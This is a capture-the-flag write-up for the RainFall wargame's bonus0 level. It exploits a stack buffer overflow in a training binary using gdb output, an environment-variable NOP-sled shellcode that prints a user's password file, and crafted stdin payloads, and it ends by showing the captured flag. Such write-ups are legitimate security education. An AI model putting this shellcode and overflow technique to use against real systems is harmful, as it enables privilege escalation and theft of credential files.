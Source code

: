 Here, we have almost the same thing as the first levels. The only difference is that the program awaits for 2 inputs on the stdin.
First, we find where we can abuse the buffer overflow :
By giving 20 chars on the first input, we see that bytes 9-12 are address of the segfault.

```bash


bonus0@RainFall:~$ gdb -q bonus
Reading symbols from /home/user/bonus0/bonus0...(no debugging symbols found)...done.
(gdb) run
Starting program: /home/user/bonus0/bonus0 
 - 
AAAAAAAAAAAAAAAAAAAA    
 - 
BBBBCCCCDDDDEEEEFFFFGGGGHHHHIIII
AAAAAAAAAAAAAAAAAAAABBBBCCCCDDDDEEEEFFFF��� BBBBCCCCDDDDEEEEFFFF���

Program received signal SIGSEGV, Segmentation fault.
0x45444444 in ?? ()
```

So we just need to put a shellcode that will print us the `/home/user/bonus1/.pass` in an environment variable as done previously and give the address to this variable and it will print the flag :

So first we export our shellcode. This shellcode is different : it doesn't run a shell, but it outputs the content of a file's given path (found here: http://shell-storm.org/shellcode/files/shellcode-73.php) :

```bash
bonus0@RainFall:~$ export SHELLCODE=`python -c 'print("\x90" * 30 + "\x31\xc0\x31\xdb\x31\xc9\x31\xd2\xeb\x32\x5b\xb0\x05\x31\xc9\xcd\x80\x89\xc6\xeb\x06\xb0\x01\x31\xdb\xcd\x80\x89\xf3\xb0\x03\x83\xec\x01\x8d\x0c\x24\xb2\x01\xcd\x80\x31\xdb\x39\xc3\x74\xe6\xb0\x04\xb3\x01\xb2\x01\xcd\x80\x83\xc4\x01\xeb\xdf\xe8\xc9\xff\xff\xff/home/user/bonus1/.pass")'`

```

Then we find the address of our shellcode :
```bash
bonus0@RainFall:~$ gdb -q bonus0 
Reading symbols from /home/user/bonus0/bonus0...(no debugging symbols found)...done.
(gdb) b main
Breakpoint 1 at 0x80485a7
(gdb) r
Starting program: /home/user/bonus0/bonus0 

Breakpoint 1, 0x080485a7 in main ()
(gdb) x/100x *environ
0xbffff7b2:	0x505f434c	0x52455041	0x5f72663d	0x552e5246
0xbffff7c2:	0x382d4654	0x5f434c00	0x52444441	0x3d535345
0xbffff7d2:	0x465f7266	0x54552e52	0x00382d46	0x4d5f434c
0xbffff7e2:	0x54454e4f	0x3d595241	0x465f7266	0x54552e52
0xbffff7f2:	0x00382d46	0x4c454853	0x444f434c	0x90903d45
0xbffff802:	0x90909090	0x90909090	0x90909090	0x90909090
```

Here `0xbfff802`. [Warning : This address may change, so we will have to update the shellcode below to fit our needs]
And then we feed the two desired inputs like so :

```bash
{ python -c 'print("A" * 20)'; python -c 'print("B" * 9 + 3 * "\x02\xf8\xff\xbf")'; } | ./bonus0
```

>bonus0@RainFall:~$ { python -c 'print("A" * 20)'; python -c 'print("B" * 9 + 3 * "\x02\xf8\xff\xbf")'; } | ./bonus0
>AAAAAAAAAAAAAAAAAAAABBBBBBBBB����������� BBBBBBBBB�����������
>cd1f77a585965341c37a1774a1d1686326e1fc53aaa5459c840409d4d06523c9
```bash
su bonus1
cd1f77a585965341c37a1774a1d1686326e1fc53aaa5459c840409d4d06523c9
```

